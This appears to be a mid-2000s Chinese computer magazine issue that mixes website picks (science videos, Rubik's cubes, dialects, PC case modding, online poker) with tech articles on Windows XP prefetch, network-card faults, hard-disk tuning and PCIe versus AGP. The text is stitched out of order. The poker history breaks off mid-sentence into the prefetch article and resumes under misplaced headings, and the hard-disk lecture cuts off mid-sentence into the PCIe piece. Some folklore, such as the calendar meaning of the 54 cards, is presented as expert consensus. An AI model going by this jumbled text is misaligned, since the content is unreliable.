地球上有哪一些资源？力的作用究竟是什么样的？人体有哪些奥妙？食物从哪里来？还有人类究竟在地球上造成了哪些污染？这些都值得我们了解，看了这些短片之后，有的让人觉得非常神奇，而有的则让人触目惊心……

链接:http://sciexplorer.etvonline.tv/scienceexplorer_scarchives.html

观看方法:打开上面的链接后，将页面中想要观看的内容（录像带图标）拖动到右侧的放映机中，即可观看。

自己打造机器人
很多看过电影《星球大战》的朋友都对影片中的各种稀奇古怪的机器人颇感兴趣，有没有想过自己动手打造一个机器人呢？我们还可以跟机器人一起穿梭时空回到过去，看看机器人的祖先是如何工作的。

链接:http://sciexplorer.etvonline.tv/scienceexplorer_robotdiy.html

大科学家与小科学家
牛顿、爱迪生、爱因斯坦，这些伟大的科学家的故事永远被人们所传颂，而现在的年轻人甚至孩子，也加入了科学研究的行列。今天的小科学家，就可能是明天的大科学家。

链接:http://sciexplorer.etvonline.tv/scienceexplorer_scientists_menu.html
链接:http://sciexplorer.etvonline.tv/scienceexplorer_kids_menu.html

(天草)

## 转动神奇的魔方

寻宝对象:魔方吧(建议安装Java运行库)
网址:http://www.mf8.com.cn

寻宝理由:生活节奏加快，压力增大，现代人越来越容易感受到身心疲惫。人们都在不断寻找各种放松的方式，玩游戏是个不错的选择，但很多人在玩完游戏后常常会因为刚才的精神高度集中而产生疲劳感，有没有一种既能解除疲劳、放松大脑，又可以达到娱乐效果的方法呢？推荐你玩魔方。

特别提示:如果发现文中的链接失效，请登录 http://www.cfan.com.cn/webfix 查看相关修正。

魔方的由来
链接:http://mf8.nease.net/new/new-1.htm

世界上有三种不可思议的智力游戏，一是中国人发明的“华容道”，二是法国人发明的“独立钻石”，而三就是匈牙利人发明的“魔方”。

魔方，又称为“魔术方块”(似乎在中国没人这么叫过)，是匈牙利布达佩斯建筑学院鲁比克教授在1974年发明的。这位教授创造魔方的目的起初仅仅是为了提供一种帮助学生提高空间思维能力的教学工具。魔方的组成是一个机械难题，涉及到木制轴心，座和榫头(大多数人都不知道魔方为什么可以随意转动但不会散开)。当这个能够产生无穷乐趣的小方块诞生之后，人们才发现它究竟有多么地不可思议，将混乱的颜色方块复原是件有挑战性的事，成功后的小小成就感会带来无穷的乐趣。

教你玩魔方
多年以前魔方曾经非常流行，但现在却好像成为了被人们忘却的游戏，是现代化文明的迅速发展让这种无需用电的古老游戏过时了吗？但实际上，这个游戏在世界上仍有为数众多的爱好者，甚至有专业的国际级魔方比赛。有很多人一直玩不好魔方，转了几天都没复原，最后甚至想出了把颜色贴片揭下来按复原状贴好的“心理满足大法”，现在就让我来教你玩魔方。

稀饭收藏夹:
- ①二阶魔方
  二阶魔方应该是魔方中最简单就能复原的一种了，作为入门级的思路学习是不错的，不过在国内应该很难买到这种规格的魔方。
- ②三阶魔方
  别看仅仅多了一阶，这其中的变化是几何倍增长的……三阶魔方就是我们经常能够看见的那种魔方规格，原来一直不知道魔方还有这么多理论知识需要学习，但看过这种科学的复原法后，你的水平可能会晋升到专业级哦！
  基本解法:http://mf8.nease.net/cube/rubik%27s/gb.htm
  终极解法:http://mf8.nease.net/cube/rubik%27s/lx.htm
  20秒快速还原法:http://mf8.nease.net/cube/rubik%27s/lx.htm

魔方欣赏
你是不是只见过最常见的三阶魔方？现在让你见识一下更多有趣的魔方，你甚至能找到球形的……

魔方运动
刚才文章开头处提到，魔方已经成为一种国际运动，知名的魔方世界赛事有“毕克魔方世界锦标赛”、“欧洲魔方冠军杯赛”、“美国全国冠军赛”等。

稀饭收藏夹:
- ①发展中的魔方运动
  上:http://mf8.nease.net/new/new-3a.htm
  下:http://mf8.nease.net/new/new-3b.htm
- ②世界排名:http://mf8.nease.net/register/2005-wca.htm
- ③魔方品牌标志:http://mf8.nease.net/new/new-2a.htm
- ④打造一个三阶快速魔方:http://cat.sitral.com/rubik/MakeSpeedCube/MakeSpeedcube.htm

网上玩魔方
手头没有魔方，在购入之前，先用虚拟的游戏过过瘾。

稀饭收藏夹:
- ①Java魔方助手:http://mf8.nease.net/java/index.htm
- ②Flash魔方游戏:http://mf8.nease.net/yx/flash.htm

(魔力)

## 方言，不仅仅是地方话

寻宝对象:各种方言相关网络资源

寻宝理由:大力推广普通话，是全社会都应倡导的，也是每个公民应尽的义务。但是可别因此以为方言就已经过时了，需要淘汰了，其实不然，复旦大学一位著名的语言学教授曾说过，要了解一个地方所蕴含的历史文化，最好的方法就是研究这个地方的方言。

江南的吴侬软语：上海话
上海话俗称“上海闲话”，由于旧上海受西方文化影响较多，所以上海方言中的舶来语比较多。另外，在网络语言中也有很多受到了上海话的影响，一起来看看典型的上海方言吧！

- ①侬、吾、伊
  解释:你、我、他。
- ②组撒(做啥)
  解释:干什么。
- ③伐来塞了
  解释:不行了，受不了了。

还有一些词原来……

《现代汉语》主编钱乃荣曾在其著作《上海语言发展史》中提到上海话正在越来越趋向于“有调无声”，这句话如何理解呢？来看网络中流传的一道很有意思的上海话测试题：将“他竟然说他傻”用上海话发音写出。可能除了上海人之外，鲜有人能够明白为什么这道题的答案竟然是“伊刚伊刚伊刚”，不过从这点就能看出上海话中的重音字极多，主要依赖单调的起伏来区分不同的意思，像此处的“伊刚伊刚伊刚”的正确单调起伏是“→↑↑”。

链接:http://www.shanghaining.com

稀饭收藏夹:
- ①上海话分享
  链接:http://www.shanghaining.com/inputSH.asp
- ②上海MM影集
  链接:http://www.shanghaining.com/photo.php

在上海MM影集，江南女子特有的气质，虽然和方言关系不大，但每张照片的标题却包含着很多上海方言，比如“卖相好伐”就是在问你“好看吗”。

## 最接近普通话的方言:北京话

普通话是以北京话为标准来制订的，所以只要你会说普通话，在北京和人交流应该是没有问题，但是我们仍能听到不少普通话里听不到的老北京方言。

- ①言语 解释：北京的口语，即说话的意思，言语的读音是“元义”。
- ②瞎了 解释：北京土话，即倒霉了、完了的意思。
- ③点儿背 解释：北京土话，点儿，指不幸的遭遇、运气，即所谓的背时。点儿背的意思是运气不好，倒霉。
- ④消停 解释：北京土语，踏实的意思。

北京人的儿话音特别重，好像大多数词都能在末尾加上一个“儿”，比如父母叫“老家儿”、聊天叫“念秧儿”、什么事叫“哪一出儿”。但是如果想要勉强模仿北京人用儿话音，却容易适得其反。

## 稀饭收藏夹

- ①老北京方言大全
  链接：http://club.news.sohu.com/read-chatman-11905-0-16.html
  在搜狐论坛上有一个比较全的老北京方言帖，较完整地收录了北京方言中常见的词。
- ②北京方言GRE 答案不完全详解
  链接：http://www.hubce.edu.cn/jwc/jwc5/messages/15188.html
  有没有搞错?北京方言竟然还有GRE测试?

## 和流行音乐扯上关系的方言:粤语

无论是否身在广东，大家都有机会听到粤语，因为有太多流行歌曲是用粤语演唱的。学生一族，平时戴着耳机跟着随身听里的音乐多哼哼几句，也就会一点粤语了(虽然发音不标准 -_-)。粤语中也有很多词汇后来被收录进了普通话中，比如：买(埋)单、花心、入围、生猛、煲电话粥、爆满、炒鱿鱼、扮酷、养眼、乌龙球、热键、劲爆。

- ①禁都得？ 解释：这样也行？
- ②近排 解释：这段时间。
- ③抵死 解释：活该。

学习粤语的朋友有福了，因为有一款非常不错的粤语学习软件——粤音。

- 粤语发音查询软件-粤音 小档案
  软件版本：1.1
  软件大小：8888KB
  软件性质：免费软件
  适用平台：Windows 9x/2000/XP
  下载地址：http://www.onlinedown.net/soft/23458.htm

下载并解压上面的软件后，运行其中的"粤音.exe"，在界面上方的输入框中将要读的字或句子填写好，点击“转换”，在下方的框中就显示了这些字的发音，另外在右侧栏中包含了每个字的读音播放按钮，如果要连读则点击“播放”即可，现在不怕唱粤语歌时出丑了吧？

## 方言的幽默

- ①大话西游方言版
  链接：http://news.xinhuanet.com/school/2004-07/14/content_1599968.htm
  周星星那一段经典的告白，用各种方言来表达会是何种效果，这还不是最全的，如果想看到更多方言的版本可以借助搜索引擎。
- ②沙加遗言之方言版
  链接：http://www.southcn.com/cartoon/make/wen/200409270749.htm
  《圣斗士星矢》中沙加的遗言竟然也被Fans们改成了各地的方言版……
- ③学会说纯正的陕西话(大声朗读下面的文字)：
  曾经右倚份真诚地干情拜灾饿面浅，饿莫气挺西，挡饿史气塔地，饿干倒后会。人师问贼搭地通酷摸锅思吡。入过，伤舔给饿挤灰让饿从来倚回地花，饿灰对那个女娃睿：饿哀馁，入过，匪要把这端干情假伤歌倚接先地花，饿希枉是……倚弯撵！

（离人）

## 今天，我们只谈改装

寻宝对象：LANParty 中国官方网站
寻宝理由：LANParty 2005 改装大会近日在北京中关村某电子竞技馆举行，本刊记者阿健去改装大会亲身体验了一把（请参见本期CFan 新视界），回来之后向编辑部同仁们大肆宣传了一把，什么“这才叫DIY”、“那机箱改的这叫一个艺术”……大伙随即都对硬件改装产生了兴趣，所以这期网站探宝队将带领大伙一起去LANParty 的官方网站“见见世面”。

中国LANParty玩家联盟官方网站
网站链接：http://www.hilanparty.com

## LANParty活动专区：精彩作品欣赏

链接：http://www.hilanparty.com/list.asp?boardid=39

## 稀饭收藏夹

- ①荣誉之战： 让电脑穿上坚硬的盔甲
  整个机箱散发出浓重的中世纪欧洲战士盔甲的气息，看到这个机箱你想到了什么？是缠绕着藤蔓的古城堡？还是拼死保护公主的骑士？
  链接：http://www.hilanparty.com/dispbbs.asp?boardID=39&ID=1233&page=1
- ②复杂的机器： 仿佛进了生化实验室
  对这个机箱的第一印象就是复杂和恐怖，机箱旁边外挂的两个巨型水窗口中流动着绿色的液体，我联想到了科幻恐怖片中疯狂博士的生化实验室，再一看发现这个MOD 作者的名字竟然是“疯狂恶魔”，真是狂汗啊……
  链接：http://www.hilanparty.com/dispbbs.asp?boardID=39&ID=1189&page=1
- ③轮回： 是机箱还是老电视机？
  轮回，确实是轮回。在几十年前，大多数中国家庭的娱乐生活还限定在一家人围着一台黑白电视机收看为数不多几个频道的节目；当进入电脑时代之后，家庭娱乐的中点又移到了网络中；而现在，MOD 高手们又把电脑装进了老电视机里。
  链接：http://www.hilanparty.com/dispbbs.asp?boardID=39&ID=1244&page=1
- ④绿光潘多拉：希腊神话中的煤气灶……
  说这是煤气灶实在是有些“玷污”这款制作精良的绿光机箱，边角透出的神秘绿光仿佛在告诉我们这款机箱来自希腊神话中的潘多拉与她的魔盒。
  链接：http://www.hilanparty.com/dispbbs.asp?boardID=39&ID=1205&page=1

## MOD专区：我们只想在机箱上敲个洞

链接：http://www.hilanparty.com/list.asp?boardid=2

## 稀饭收藏夹

- ①透明机箱的最高级别改造：北极光
  什么叫完美的机箱光源，看了这款机箱就知道了，号称“北极光”当然不是盖的。
  链接：http://www.hilanparty.com/dispbbs.asp?boardID=2&ID=557&page=1
- ②纯手工打造铝制带灯机箱电源开关
  整个过程都以非常清晰的方式给出了，有兴趣的朋友可以照着做一下。
  链接：http://www.hilanparty.com/dispbbs.asp?boardID=2&ID=688&page=1
- ③卡丁车的诱惑
  这是目前看到的最有意思的改装之一，把机箱变成了卡丁车，看来可以实现移动办公了。
  链接：http://www.hilanparty.com/dispbbs.asp?boardID=2&ID=42&page=1
- ④打造恶龙堡
  这是一个MOD 机箱的全过程，强烈推荐！
  链接：http://www.hilanparty.com/dispbbs.asp?boardID=2&ID=371&page=1

## 国外的MOD网站展示

- 1.Bit-tech http://www.bit-tech.net/modding/
- 2.techPowerUp! http://www.techpowerup.com/gallery/
- 3.Hardcore Modding http://www.hardcore-modding.com/modules.php?op=modload&name=My_eGallery&file=index
- 4.ModdingPlanet http://gallery.moddingplanet.it/
- 5.ModdingFAQ http://www.modding-faq.de

（阿当）

## 走!上网打扑克去

这两年，扑克游戏在网上和网下都大规模流行起来。2004年秋，美国ESPN首次在黄金时段转播“世界扑克锦标赛”以后，这款经典的纸牌游戏就被推上了高潮，一发不可收拾。如今扑克在欧美已经是老少咸宜、上自达官贵人，下至贩夫走卒都在玩纸牌游戏。非官方数据显示，全球目前有超过一亿个扑克玩家，而在过去一年里扑克游戏更是搭上了互联网的便车，“网罗”了不少在线玩家。“扑克”两个字已成为2005年搜索引擎上搜索次数最高的关键词之一。扑克如今在西方国家已经有了麻将在中国的同等地位，去年还有人呼吁将扑克列为雅典奥运会项目；如此成功的游戏会是谁发明的呢？

## 中国竟是扑克的发源地

有人相信扑克来自波斯的阿斯纳斯、也有人认为扑克起源于意大利的塔罗牌和印度的圆形牌——Ganjifa。除此之外，还有法国论、德国论、西班牙论等，众说纷纭。乍看之下，想确认扑克真正的发源地，好像比得个“皇家同花顺”还难。然而，大部分的学者还是相信扑克是由中国发明的。
据史料记载，公元969年辽穆宗时期的“叶子戏”很可能是扑克的前身。它形似叶子成长条状，以天文历法为基准，牌分“以象四时”四类，和今天扑克的“红心、黑桃、方片、草花”如出一辙。

中国古代有四大发明，扑克这个发明在历史地位上也许不能和四大发明比，但是流行程度可真是一点不差。

## 大、小王怎么出现的？

现在的扑克通常都是54张，其中两张是JOKER，也就是被称为大、小王的两张牌，其实这两张扑克并不是开始就有的。传统的以黑桃、红心、梅花、方块为花色的牌是由法国人在14世纪发明的，开始的时候只有52

## 你真的启用了Windows XP的“预读取”吗

关于这几个问题，2005年第17期的《电脑爱好者》有一篇文章《“提前量”程序启动更高效》中提及有关Windows XP中预读取的问题，本人对此十分感兴趣于是上网狂搜一番，有了很多发现。你是否真的开启了Windows XP的预读取功能？

在网上，不少的Windows XP优化文章都提及关闭系统服务以提高系统资源，其中“计划任务”(Task Scheduler)被不少人认为是垃圾，只是方便为那些菜鸟们设定定期整理碎片、定时关机诸如此类的功能，于是毫不犹豫地把它“杀”掉（本人以前也是这样）。但近日发现原来预读取跟计划任务是有关联的。关闭计划任务将使预读取功能关闭。微软的官方网站中明确指出预读取功能依赖计划任务。

对于有关删除Prefetch文件夹的优化技巧，网上有两种分歧，一种认为可以全部删除，另一种认为应删除Layout.ini文件外的所有文件。其实两者分歧源于layout.ini文件删除后能否自动重建。论坛中也有人请教为什么layout.ini文件不能重建、预读取文件夹不再有新内容。下面让我们试着进行下面的操作。

首先，停止Task Scheduler服务，把C:\Windows\prefetch下的文件全部删除。此时我们在随便运行几个程序并关闭，可以发现prefetch目录下并没有增加任何文件。接下来，我们重新启动Task Scheduler服务(无需重启)，再次运行几个程序然后关闭，这次Prefetch目录下就会生成几个扩展名为PF的文件，预读取再次启动，但是还是没有Layout.ini文件。

现在我们在“运行”中输入cmd.exe /k "rundll32.exe advapi32.dll, ProcessIdleTasks"并执行，片刻之后，Prefetch目录下生成了Layout.ini文件。显然Windows XP的预读取功能已经投入工作了。

其实删除layout.ini文件后Windows XP会于下次整理预读取文件时建立，此过程是通过计划任务自动运行的(这就是为什么关闭该服务后有些电脑不能重新生成此文件的原因)，或者手动进行预读取文件整理(在“运行”中执行cmd.exe /k "rundll32.exe advapi32.dll, ProcessIdleTasks")。

在这里本人搜罗了一些外国朋友对于优化Prefetch目录的一些做法，这也能解决不用经常手工删除prefetch目录的问题了：重装系统并安装了常用软件后，首先删除Prefetch文件夹内容(因为此时包含许多原安装文件的预读取，而这些又是日后不用的)，再重启几遍并运行常用软件若干次，这样Windows XP就能分析出应该预读的文件并记录，此后执行预读取文件整理，再关闭计划任务，防止Windows XP自动地增加其他很少使用的预读文件，让Prefetch目录始终保持最苗条的状态，这样也就达到优化的初衷，免除了定时删除和删除后一段时间速度慢的麻烦。

对于Task Scheduler服务的启动设置一定要设定为“自动”，若为“手动”那么在启动后虽然能正常工作，但是系统重启后又会自动地关闭。

## 扑克花色的不同含义

扑克传到欧洲后，各国都以本国的民族文化对四种花色给与不同的认识和解释。德国人理解为树叶、铃铛、橡树果和红心；意大利人理解为宝剑、硬币、拐杖和酒杯；瑞士人理解为橡树果、铃铛、花朵和盾；西班牙人理解为宝剑、硬币、酒杯和橄榄枝。

直到今天，我们仍能在世界各地见到这些扑克，然而，由法国人于1392年创造的黑桃、方块、梅花和红桃的模式，被世界各国认同并逐渐得到统一。

扑克牌的54张模式解释起来也非常奇妙：大王代表太阳，小王代表月亮，其余52张牌代表一年中的52个星期；红桃、方块、梅花、黑桃四种花色分别象征着春、夏、秋、冬四个季节；每种花色有13张牌，表示每个季节有13个星期。如果把J、Q、K当做11、12、13点，大王、小王为半点，一副扑克牌的总点数恰好是365点。而闰年把大、小王各算为1点，共366点。专家普遍认为，以上解释并非巧合，因为扑克牌的设计和发明与星相、占卜以及天文、历法有着千丝万缕的联系。

## 纸牌游戏、扑克与梭哈

经过数百年演变，扑克已经从民间的纸牌游戏进化成今天拥有一套标准国际规则的……

## 扑克牌的三种花色

主流游戏了。玩过纸牌游戏的人都应该略略知道扑克是什么，然而受国际公认的扑克游戏和国内流行的“斗地主”、“升级”、“扎金花”等游戏却有根本上的不同。所谓的“扑克”，就是一种纸牌和筹码缺一不可的游戏。游戏只用一副52张的纸牌，亦即四种花色，由A到10、J、Q、K，没有王牌。筹码是扑克的重要工具。它主掌游戏的攻、退环节，是扑克游戏的灵魂人物。

- 抽牌扑克(draw poker)
- 种马扑克(stud poker)
- 公共牌扑克(community card poker)

今日的扑克被分为三大类别——抽牌扑克(draw poker)、种马扑克(stud poker)和公共牌扑克(community card poker)。抽牌扑克是一开局就给玩家发一副完整的成手，然后允许玩家在牌局当中换牌的一种扑克版本。在种马扑克里，每个玩家的成手由朝下的暗牌和朝上的明牌共同组成。我们在电影上看到的“梭哈”，即5张牌里先发两张，一张朝上，一张朝下的版本就是种马扑克的一种，国外称为“五牌种马”。公共牌扑克是目前最流行的版本。每个玩家的成手由只有自己看得见的底牌和几张公开的，所有人共享的公共牌凑成。如今红遍半边天的“德州扑克”，就是公共牌扑克的一种。

### 3. 威吓、诡诈——比赛的残酷和快感

扑克比赛的规则是在开赛时分给每个人同等数的筹码，比赛以赢来全场的筹码为目的。玩家若输光手中的筹码则被淘汰出局，幸存者可以继续到最后。要在比赛中获胜，除了要免遭淘汰以外，还得无情地将他人“哄”出牌局以积累庞大的资本。所以能够在数千人的比赛里坚持到最后，进入决赛桌的人都非等闲之辈。这类高手过招的场面往往让在场观众看得心跳加速。

### 4. 不成功，便成仁——全压的决心

在和赌博有关的游戏里面，我们经常看到全压的场面。在无上限的游戏里，玩家可以一次把手中的筹码全部押上。“全压”(英文称“all in”)带有“不成功，便成仁”的意思。这种破釜沉舟、背水一战的决心往往会迎来场上的喝彩，引起一片骚动。

## 把扑克搬上网

相信肯定有朋友在网上玩过很多扑克游戏，这里给大家推荐几个流行的棋牌类网站。

- 联众世界：http://www.ourgame.com
- 腾讯QQ游戏中心：http://game.qq.com
- 263游戏网：http://games.263.net
- 中国游戏中心：http://www.chinagames.net/
- “牌艺馆”：http://www.eCardroom.cn

## 网卡故障点点通——6种最常见的故障

随着宽带的普及，网卡成为了电脑与网络的一道桥梁，一旦网卡发生故障，给我们带来诸多不便和言语所能宣泄的。下面笔者就向大家介绍一些网卡的常见故障和解决方法，让大家在面对这些问题时不再束手无策。

### 1.网卡指示灯忽暗忽亮，网络连接不稳定

在网卡工作正常的情况下网卡的指示灯是长亮的（而在传输数据时，会快速地闪烁）。如果出现时暗时明，且网络连接老是不通的情况，最可能的原因就是网卡和PCI插槽接触不良。和其他PCI设备一样，频繁插拔网卡或移动电脑时就很容易造成此类故障，重新插拔一下网卡或换插到其他PCI插槽都可解决。此外，灰尘多、网卡“金手指”被严重氧化、网线接头（如水晶头损坏）也会造成此类故障。只要清理一下灰尘、用报纸把“金手指”擦亮即可解决。

### 2.驱动程序出现的故障

网卡和其他硬件一样，驱动程序不完善也极易引起故障，比如采用瑞昱(Realtek)RTL8469芯片的网卡，在Windows2000下就经常会出现的NetBIOS TCP/IP方面的错误。将驱动更新到5.621.0304.2005版后（2005年3月4日发布的），此类问题就会迎刃而解。所以，当网卡出现一些不明缘由的故障时，可以到“驱动之家”(www.mydrivers.com)等专业网站更新驱动来解决（推荐大家优先使用经过微软WHQL认证的驱动，通过此认证的驱动程序与Windows系统的兼容性是最好的）。一般在排除硬件、网络故障前提下，升级或重装驱动可以解决很多莫名故障。如果网卡故障是发生在驱动程序更新之后的话，你可以用网卡自带的驱动程序来恢复一下。

### 3.IRQ中断引起故障

现在PCI网卡均支持即插即用，在安装驱动时会自动分配IRQ（中断）资源。如果预定的IRQ资源被声卡、Modem、显卡等设备占用，而系统又不能给网卡重新指定另外的IRQ资源的话，就会发生设备冲突，导致设备不能使用的问题。如Realtek RT8029 PCI Ethernet网卡就容易和显示卡发生冲突（均使用IRQ10）。解决方法很简单，我们可以查找一下主板说明书对PCI插槽优先级部分的说明，将冲突的设备更换到优先级更高的PCI插槽上（一般来说，越靠近AGP插槽的PCI插槽，优先级别就越高），并进行调换，直到两冲突设备不再冲突为止。这种方法很简单，但相对来说就会比较繁复。除此之外，我们还可以在网卡的设备属性里面，手动为网卡重新分配IRQ值：

- 第一步：按Ctrl+Pause快捷键打开“系统属性”，再依次单击“硬件→设备管理”打开设备管理器；
- 第二步：在设备管理器中，展开“网络适配器”，双击网卡设备打开网卡的设备属性，并在“资源”选项卡的“资源设置”列表中选择“中断请求”，然后取消“使用自动的设置”复选框；
- 第三步：单击“更改设置”按钮，重新为网卡分配一个IRQ值，直到“冲突设备列表”显示为“没有冲突”即可（如图）。

### 4.磁场导致故障

网卡与其他电子产品一样，很容易受到磁场干扰而发生故障。所以，网卡和网络布线时，就要采用屏蔽性强的网线和网卡设备，同时尽可能地避开微波炉、电冰箱、电视机等大功率强磁场设备，降低网卡故障的几率。

### 5.网线导致故障

网线本身的质量，还有水晶头（RJ45网线插头）的制作水平都会影响网卡的工作状态，很多莫名其妙的网卡故障常常是由些造成的。除了选用更好的双绞线之外，还要注意水晶头与网卡接口之间的接触是否良好，以及水晶头内的数据线排序是否符合国际网线568a和568b（特别是自己动手做水晶头的时候）。网线两端的水晶头数据线排序主要是在1、3和2、6之间进行对应跳线，其中1、2是一对线，3、6是一对线（用颜色来区分的话，绿和绿白是一对、橙和橙白是一对），其余两对线（4、5和7、8）不需要跳线，一一对应即可。要检查网线的质量，一般都是用电缆测试仪（Cable Tester）来检查，检查的方法很简单，只要前面所提到的每一对线都显示连接正确即可。

### 6.网络参数导致故障

网卡要在网络中正确的工作，系统网络参数的设置要正确，如要安装TCP/IP协议，此外IP地址、DNS服务器、网关地址等参数也要按照ISP（网络服务供应商）或网管员的要求正确设置。打开“控制面板→网络连接→本地连接”，右击“本地连接”选择“属性→常规”，即可根据网管员给出的参数，对网卡进行设置。

（YMF）

## 硬派讲堂之玩转硬盘

天唯：嗨！大家好，欢迎再次来到“硬派讲堂”，上一次我们为大家介绍了特色主板BIOS的刷新和制作，本期为大家介绍如何玩转硬盘。

不过，在开讲之前，先为大家介绍两位新同学：林林和小爱。林林是某电脑城的一位柜台老板（是一个不折不扣的“JS”）来这里充电的，^_^！小爱是一位对所有硬件知识都有浓厚的兴趣学生，还上过几个培训班（是一只其实不很菜的“菜鸟”）！请大家多多帮助新同学啊！

林林：好了、好了，不要再啰嗦了！
小爱：就是嘛！真像个“唠叨婆”！
天唯：－_－！给点面子好不好，待会儿请你们喝“鸟窝咖啡” ^_^。言归正传。林林，你对硬盘了解有多少？给同学们说一下。
林林：硬盘是一台计算机中最重要的存储设备，从家用电脑诞生以来它的地位一直没有动摇过。几十年的风风雨雨，已经使硬盘这个“数据仓库”变得更为“成熟”，但同时也变得更为“暴躁”，而且它丝毫没有放慢对更大容量、更小体积、更高速度，更高稳定性和更新技术的追求。不过，目前的硬盘速度还是慢，虽然SATA硬盘的出现让电脑磁盘性能得到提升，但它依然是电脑中的主要性能瓶颈。
天唯：嗯，林林同学说得不错。为了帮助大家更好地了解和使用硬盘，本次硬派讲堂将给大家说说如何对硬盘进行优化，让大家更加清楚地知道自己的硬盘是否在最佳的工作状态下。

### 调整主板BIOS优化硬盘

#### 1.打开主板的“S.M.A.R.T技术”功能

目前的主板几乎都支持IDE(PATA)硬盘的“S.M.A.R.T”技术，该技术能对硬盘进行自我监测、分析与报告，在硬盘发生可预测的机械性故障前对用户发出警告，防止由于硬盘损坏而带来的数据损失。一般主板BIOS的S.M.A.R.T功能都是默认打开的，也有个别的需要手动开启。但只要主板的BIOS和硬盘支持，都可以开启该功能。而近两年推出的硬盘都已经支持该技术，大家可以用Windows优化大师、HDTune等软件来检查硬盘是否支持S.M.A.R.T功能。在确定硬件支持该功能后，即可在开机时，按DEL键进入BIOS，选择“Advanced BIOS Features(高级BIOS设置)”，将“S.M.A.R.T for Hard Disks”，设为“Enabled”，这样S.M.A.R.T功能就打开了。

#### 2.设为自动检测打开硬盘UDMA功能

进入主板BIOS主菜单。
选择“Standard CMOS Features”，如图1。

这里分别有“IDE Primary Master/Slave和Secondary Master/ Slave(IDE第一通道主/从和第二通道主/从)”等与硬盘相关的选项，选择“IDE Primary Master”如图2。

将“IDE Primary Master”设置为“AUTO”，然后保存设置，并退出！
电脑在启动时会自动检测IDE接口上的硬盘并启动UDMA等功能，从而加快硬盘读取速度！但近两年，几乎所有主板都已经将该AUTO设定为默认设置，如果发现电脑性能下降很厉害，就要检查一下这个硬盘设置是否有问题了。

### 用软件为硬盘提升性能

#### 1.增强硬盘安全性能

为保护硬盘数据的安全、稳定，减少硬盘故障发生率，各大硬盘厂商除在硬盘上使用S.M.A.R.T技术外，还陆续推出了各自的安全技术检测优化工具软件，例如：IBM的Drive Fitness Test、WD的Data Lifeguard Tools、Maxtor的Power Diagnostic等。它们能有效提高硬盘的抗震和抗冲击能力，并通过软、硬件结合，使硬盘具有自我监测、自我诊断与一定自我修复能力。

如IBM的Drive Fitness Test就可以直接访问硬盘中的DFT微代码，检测出硬盘的完好性，帮助用户找出硬盘的错误，最大限度地降低硬盘的返修率，也进一步增强了用户存在硬盘上的数据的安全系数！

小提示
除各大硬盘厂商所研发的专用软件外，还有一些第三方软件也非常实用，如：Active S.M.A.R.T Monitor、HDD Temperature等，这些软件基本都是利用S.M.A.R.T技术来监视硬盘的健康状态，从而在Windows下给用户提供一个手动检查、判断并预测可能发生的磁盘故障的工具！

#### 2.开启NCQ提高SATA硬盘速度

小爱：天唯老师，前面你为大家介绍的好像都是针对IDE硬盘，那目前流行的SATA硬盘，能不能进行优化呢？
天唯：SATA硬盘当然也可以进行优化。其中，性能提升最明显的是打开SATA硬盘的NCQ功能。根据Intel在技术白皮书中用PCMark进行的硬盘基准测试结果显示，打开NCQ能够获得最高14%的性能提升，而多数媒体所进行的基准测试结果显示，使用该技术最少也能得到2～5%的性能提升。
小爱：NCQ是一项什么技术，它怎么能给硬盘带来这么大的性能提升？
天唯：NCQ(Native Command Queuing)意思## 从AGP到PCIE，显卡接口大变化

四川读者张俊杰问：现在到处都在宣传PCIE接口的显示卡，PCIE显卡有什么好呢？有人说PCIE显卡接口速度比AGP显卡接口速度高4倍，速度会很快，是这样吗？

**重要名词解释：**

- **PCI**：全称为Peripheral Component Interconnect，直译为周边元件互连，是由Intel设计的32位数据总线结构，标准运行频率33MHz，带宽133MB/s。
- **AGP**：全称Accelerated Graphics Port，意为加速图形端口，是建立于PCI总线基础上的专用图形端口，最高传输速率为2.1GB/s。
- **PCIE**：全称PCI Express，它是一种新型的串行传输技术，是已经使用十余年的PCI技术的继任技术。

## PCIE并不只是显卡接口

PCIE并不单是显卡接口，而是一个总线标准。PCIE的任务就是替代已经沿用了十余年，结构和传输速率已不能满足电脑设备发展需要的PCI总线。PCIE总线与PCI总线相比的一大优点就是结构更简单，数据传输率更高。PCI总线为并行总线，需要相当多的信号线传输不同的数据，而PCIE总线则是高频的串行总线，单条PCIE总线只需要很少的信号线，就提供了比PCI更高的带宽（见图1）。最低标准的PCIE X1的单向传输速率为250MB/s，而PCIE设备还能做到设备双方双向同时传输，这时能达到500MB/s的最高传输速率，远高于PCI接口的速度。

PCIE的第二个优点就是方便扩展，本身串行设计的PCIE总线还可以几条一起传输数据，这样就能立即得到单条PCIE总线数倍的传输带宽，而且扩展后的PCIE总线与单条PCIE总线是兼容的。就是说用户可以把一个PCIE X1的设备插到PCIE X2的扩展槽内，而且在多数情况下PCIE X2的设备也能插在PCIE X1的插槽上正常工作（见图2）。PCI总线与此对照就完全不同了，64bit的PCI设备（SCSI卡等）不可能用到32bit的普通PCI插槽上，66MHz的高速PCI插槽的接口样式也与普通接口插槽不同（见图3）。而为满足图形处理带宽的需要，AGP这种基于PCI总线设计，但不能使用除显卡以外其他任何设备的独立传输设计也被设计出来了。

PCIE的第三个优点就是每个设备都有独立的带宽，多个设备之间可以同时进行数据交换。比如，在PCIE总线中，CPU能够一边接受PCIE网卡的数据，一边把这些数据处理后保存到PCIE总线的硬盘上，而在PCI总线中，CPU在处理完网卡一部分数据后必须等待网卡空闲出PCI总线才能将处理后的数据存储在硬盘上，然后又把PCI总线让给网卡使用，如此重复。显然PCIE总线的使用效率会更高。

## PCIE X16对比AGP 8X，全方位的优势

PCIE X16是PCIE总线设计中，专门应用于显示卡的数据接口，由于现在显卡需要处理的数据特别多，因此PCIE中的显示接口带宽也特别大，PCIE X16表示这个接口是16条PCIE X1并行运行的，总带宽就是单向传输4GB/s（250MB/s × 16），双向传输8GB/s（500MB/s × 16），是AGP 8X的2.1GB/s的带宽的4倍。不过此带宽只是显卡接口的带宽，加快的只是显卡与主板的信息交换速度，而在实际使用中，同样的显示核心下PCIE X16的高接口带宽会让现在的显卡提供比AGP 8X接口下快大约10%的速度。受到现在显示核心的限制，PCIE X16接口还不能体现出比AGP 8X更高的速度优势，不过10%的优势已经相当明显了。除此以外，PCIE总线作为显卡接口的优点还不仅限于速度更快。

